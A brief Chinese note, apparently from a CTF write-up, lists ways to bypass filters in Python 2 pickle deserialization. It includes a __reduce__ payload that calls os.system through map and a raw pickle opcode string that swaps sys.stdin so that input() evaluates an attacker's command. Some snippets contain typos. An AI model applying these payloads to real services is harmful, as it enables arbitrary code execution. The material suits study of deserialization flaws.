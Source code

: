 因为环境版本是python2，所以有几种绕过方式

**platform.popen() **绕过

**map** 绕过

```python
class Exploit(object):
    def __reduce__(self):
 	return map,(os.system,["ls"])
```

**input** 绕过

```python
__builtin__.setattr(__builtin__.__import__('sys'),sysin,cStringIO.StringIO('evil_conmand'))
__builtin__.inpput('python>')
```

```python
opcode = b"""c__builtin__
setattr
(c__builtin__
__import__
(S'sys'
tRS'stdin'
cStringIO
StringIO
(S'evil_command'
tRtRc__builtin__
input
(S'python> '
tR."""
```

